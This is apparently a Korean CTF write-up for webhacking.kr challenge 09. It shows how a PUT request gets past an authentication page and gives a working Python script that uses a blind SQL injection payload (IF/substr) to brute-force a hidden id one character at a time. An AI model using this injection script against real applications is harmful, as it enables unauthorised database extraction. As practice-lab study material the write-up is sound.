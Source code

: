 ================================================================================================================
[webhacking.kr] 09
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="put_data: {no=IF((substr(id,%d,1)in(%s)),3,0)}",arrowhead="normal"];
        step3 -> step2[label="Data Extract",arrowhead="normal"];
    }

|

server -> DB 예측
================================================================================================================

- 최초 접속 시 다음과 같은 인증 페이지가 뜬다.

.. image:: ../../_images/web-09_1.png
    :align: center

- 해당 인증 페이지시 다른 메소드로 접속해본다.

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-09/"
    cookies = {
        "PHPSESSID":"9johqp6c81c5hf11lkomnghhn6"
    }
    r = requests.put(url, cookies=cookies, verify=False)

    print r.content

- 정상적으로 페이지가 출력된다.
- 3개의 페이지가 href 되어 있는데 어떤 내용이 있는지 확인해본다.
- no=1일 경우 페이지

.. code-block:: html

    Apple<form method=get action=index.php>

- no=2일 경우 페이지

.. code-block:: html

    Banana<form method=get action=index.php>

- no=3일 경우 페이지

.. code-block:: html

    <b>Secret</b><br><br>hint : length = 11<br>column : id,no

- 길이: 11
- 컬럼명: id, no

|

- 해당 문제의 페이지는 no를 통해 페이지가 리다이렉트되기 때문에, 다음과 같은 쿼리문으로 이루어져 있을 것이다.

.. code-block:: sql

    SELECT * FROM tb_name WHERE 
    no=$_GET["no"]

|

if
================================================================================================================

- 데이터 추출

.. code-block:: python

    import requests

    pw =""
    for i in range(1,12):
        for j in range(33,126):
            cookie = {
                "PHPSESSID":"9johqp6c81c5hf11lkomnghhn6",
            }
            url = "http://webhacking.kr/challenge/web/web-09/?no=IF((substr(id,%d,1)in(%s)),3,0)" % (i,str(hex(j)))
            r = requests.put(url, cookies=cookie, verify=False)
            q = r.content
            if "Secret" in q:
                pw += chr(j)
                print pw
                break

    print pw

